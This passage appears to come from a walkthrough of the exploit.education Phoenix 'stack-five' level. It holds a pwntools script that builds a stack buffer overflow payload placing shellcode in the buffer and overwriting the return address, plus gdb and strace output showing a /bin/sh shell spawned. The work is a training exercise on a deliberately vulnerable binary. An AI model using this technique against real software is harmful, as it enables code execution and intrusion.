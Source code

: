 ```console
(gdb) $ $rbp-0x80
140737488348480
0x7fffffffe540
0b11111111111111111111111111111111110010101000000
b'\x7f\xff\xff\xff\xe5@'
b'@\xe5\xff\xff\xff\x7f'
```

Because we are lazy, we shall write a script to calculate offsets and generate the exploit:
```python
from pwn import p64

BUFFER_SIZE = 128
BUFFER_ADDRESS = 0x7fffffffe540
RETURN_ADDRESS = 0x7fffffffe5c8

with open('shellcode.bin' ,'rb') as f:
    payload = f.read()

# payload should fit in buffer
assert(len(payload) <= BUFFER_SIZE)

# generate input for filling the buffer
buffer_smash = payload + 'A' * (BUFFER_SIZE - len(payload))
# generate input for filling gap between buffer and return address + overwrite return with buffer address
stack_smash = 'A' * (RETURN_ADDRESS - BUFFER_ADDRESS - BUFFER_SIZE) + p64(BUFFER_ADDRESS)

with open('exploit.bin', 'wb') as f:
    f.write(buffer_smash + stack_smash)
```

Run the script, and feed it's output file to the debugged program.
```console
(gdb) r < exploit.bin
...
(gdb) n
...
```

After stepping through the program, it looks like our shellcode was executed successfully!
```console
(gdb) n
process 1034 is executing new program: /bin/dash
Error in re-setting breakpoint 1: Function "start_level" not defined.
warning: Could not load shared library symbols for linux-vdso.so.1.
Do you need "set solib-search-path" or "set sysroot"?
[Inferior 1 (process 1034) exited normally]
```

Let's see it with `strace`:
```console
user@phoenix-amd64:~$ strace /opt/phoenix/amd64/stack-five < exploit.bin
execve("/opt/phoenix/amd64/stack-five", ["/opt/phoenix/amd64/stack-five"], [/* 18 vars */]) = 0
arch_prctl(ARCH_SET_FS, 0x7ffff7ffdbc8) = 0
set_tid_address(0x7ffff7ffdc08)         = 1038
mprotect(0x7ffff7ffa000, 4096, PROT_READ) = 0
ioctl(1, TIOCGWINSZ, {ws_row=62, ws_col=116, ws_xpixel=0, ws_ypixel=0}) = 0
writev(1, [{iov_base="Welcome to phoenix/stack-five, b"..., iov_len=74}, {iov_base="\n", iov_len=1}], 2Welcome to phoenix/stack-five, brought to you by https://exploit.education
) = 75
read(0, "UH\211\345H\203\354\20H\277/bin/sh\0H\211|$\370H\215|$\370\276\0\0\0"..., 1024) = 144
read(0, "", 1024)                       = 0
--- SIGILL {si_signo=SIGILL, si_code=ILL_ILLOPN, si_addr=0x7fffffffe54a} ---
+++ killed by SIGILL +++
Illegal instruction
```